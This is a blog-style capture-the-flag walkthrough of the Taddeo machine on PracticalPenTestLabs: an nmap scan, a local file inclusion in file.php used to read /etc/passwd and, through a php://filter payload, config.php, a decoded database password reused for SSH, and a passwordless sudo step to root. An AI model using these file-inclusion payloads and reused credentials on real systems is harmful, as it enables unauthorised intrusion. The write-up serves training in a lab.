 ```yaml
---
title: Practical Pentest Labs | Taddeo
date: 2018-07-03 00:00:00 +0000
layout: post
categories: []
image:
  feature: "/968f7dbcabcd64f453a6ece147eda193.jpg"
  credit: ''
  creditlink: ''
description: ''
---
```

This post will describe exploitation of the Taddeo device on [PracticalPenTestLabs](https://practicalpentestlabs.com/).

## Enumeration

As is tradition, we run a full nmap scan:

```bash
nmap -Pn -p22,80,3128 -A 10.0.3.10
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-03 21:30 EDT
Nmap scan report for 10.0.3.10
Host is up (0.094s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f9:4c:ee:5c:41:f0:29:4f:95:7f:6a:c4:ed:84:ab:b3 (DSA)
|   2048 b5:93:28:83:45:8e:7e:b5:74:55:14:4c:41:c3:0a:11 (RSA)
|   256 a1:91:d7:28:ae:16:66:6f:24:36:d1:f3:3d:74:46:e6 (ECDSA)
|_  256 03:2a:6e:17:65:a9:d6:4a:10:c7:91:ca:5d:fd:39:17 (ED25519)
80/tcp   open  http       Apache httpd 2.4.7
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 230   2016-06-21 20:25  config.php
| 115   2016-06-23 19:29  file.php
| 20    2016-06-14 10:38  phpinfo.php
|_
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Index of /
3128/tcp open  http-proxy Squid http proxy 3.3.8
|_http-server-header: squid/3.3.8
|_http-title: ERROR: The requested URL could not be retrieved
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.16
OS details: Linux 3.16
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   95.01 ms 10.10.0.1
2   95.25 ms 10.0.3.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.15 seconds
```

So immediately we get a few ports we can browse. Based on what we know about this CTF network. More than likely our shell will be from the HTTP. Because we used the "-A" flag. Nmap enumerated the HTTP website and gathered some additional information that can help us prepare a plan of attack.

![](/Screenshot from 2018-07-03 21-35-20.jpg)

On the HTTP landing page, we are greeted with a directory listing. Within this listing we have a few options: phpinfo.php; config.php & file.php

![](/Screenshot from 2018-07-03 21-37-05.jpg)

Phpinfo.php gives us additional information on the target machine. But nothing else was gained from this page. Config.php was blank. It is possible there is content in this file but we can read the contents.

![](/Screenshot from 2018-07-03 21-39-07.jpg)

File.php is interesting however, when we visit this page. We are greeted by a comment that says " Please specify the 'name' parameter" Okay. So if we visit "http://10.0.3.10/file.php?name=" We more than likely will get LFI.

![](/Screenshot from 2018-07-03 21-43-26.jpg)

And Lo and Behold we get /etc/passwd by visiting http://10.0.3.10/file.php?name=/////////////////etc/passwd. Great, so now we have a user on the machine name Taddeo. We'll need this later for SSH. Now that we know we can read system files, let's see what's inside the Config.php.

![](/Screenshot from 2018-07-03 21-43-21.jpg)

By using the PHP filters we can prevent PHP code executing when used in Local File Inclusion. So we visit "http://10.0.3.10/file.php?name=php://filter/convert.base64-encode/resource=config.php" Returned is a base64 encoded string. We will need to decode this before getting the contents of the php config file. We can do this in the command line by executing:

```bash 
echo "PD9waHAKZGVmaW5lKCAnREJfTkFNRScsICd0ZXN0JyApOwoKLyoqIE15U1FMIGRhdGFiYXNlIHVzZXJuYW1lICovCmRlZmluZSggJ0RCX1VTRVInLCAndGFkZGVvJyApOwoKLyoqIE15U1FMIGRhdGFiYXNlIHBhc3N3b3JkICovCmRlZmluZSggJ0RCX1BBU1NXT1JEJywgJ3RhZGRlb0AzMjEnICk7CgovKiogTXlTUUwgaG9zdG5hbWUgKi8KZGVmaW5lKCAnREJfSE9TVCcsICdsb2NhbGhvc3QnICk7Cgo/Pgo=" | base64 -d 
```

![](/Screenshot from 2018-07-03 21-44-14.jpg)

Once executed we will get the contents which gives us a password. Although this is a password used in MySQL. It is very common for users to re-use passwords. So let's try this out on the SSH port 22 with the user Taddeo.

![](/Screenshot from 2018-07-03 21-51-37.jpg)

We have a shell! Awesome, but the job isn't over yet. We will need to get root access now. We fire up LinuxPrivChecker.py annnnd. Nothing, nothing interesting. Which is fine because we have a few other tricks up our sleeves before we really start digging deep. But you should always try the quick and dirty tricks first before spending a ridiculous amount of time trying to get root shell. Most times, the answer is right in front of you. Now this version is vulnerable to DirtyCow. However, DirtyCow is also Dirty and more often than not will crash these machines. So best not to use it. What we do have however is a nice prompt when we execute:

```bash
Sudo -l
```

What it reads is:

```bash
User taddeo may run the following commands on TADDEO:

    (ALL) NOPASSWD: ALL
```

![](/Screenshot from 2018-07-03 21-55-46.jpg)

This is good. So we can run programs as sudo without using a password. So let's execute:

```bash
Sudo -s
```

and see if we can get a root shell.

Tadaa! We have root and our flag.

![](/Screenshot from 2018-07-03 21-56-50.jpg)